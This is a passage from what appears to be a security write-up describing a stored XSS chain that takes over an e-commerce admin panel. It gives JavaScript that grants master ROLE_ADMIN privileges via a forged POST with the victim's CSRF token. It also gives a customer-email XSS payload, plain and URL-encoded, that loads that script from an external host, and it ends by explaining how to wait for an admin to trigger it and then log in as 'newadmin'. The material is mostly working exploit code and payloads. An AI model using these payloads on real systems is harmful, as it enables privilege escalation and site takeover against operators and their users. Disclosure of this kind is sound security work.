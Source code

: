 There is a 3rd step. While the above generates the admin user, its a admin account with no privileges.

The next step gives the admin user master admin privileges.

```javascript
function addAdminAccess(token,state,path) {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/admin/user-management/"+path+"/allRoles/add", true);
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhr.responseType = "document";
    xhr.onreadystatechange = function() {
        if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
      
        }
    }
    xhr.send("fields%5B'id'%5D.value=-1&fields%5B'description'%5D.value=Admin+Master+Access&fields%5B'__adminMainEntity'%5D.value=ROLE_ADMIN&csrfToken="+token+"&stateVersionToken="+state);
}
```

With this js file created, we just need to host it somewhere https://joebeeton.github.io/b.js

Then reference it in our original XSS by setting the customer email address to

`"<script src='https://joebeeton.github.io/b.js' />"@ab.uk
`
( you need to use the url encoded version of the payload which is
`%22%3Cscript%20src%3D%27https%3A%2F%2Fjoebeeton.github.io%2Fb.js%27%20%2F%3E%22%40ab.uk`
)
Then wait for an unsuspecting admin user to login, trigger the xss payload and generate the new admin account for us.
![Screenshot 2023-04-26 at 15.40.04.png](screenshots%2FScreenshot%202023-04-26%20at%2015.40.04.png)
And from there the attacker can login with the credentials newadmin : newadmin as an admin and takeover the site.




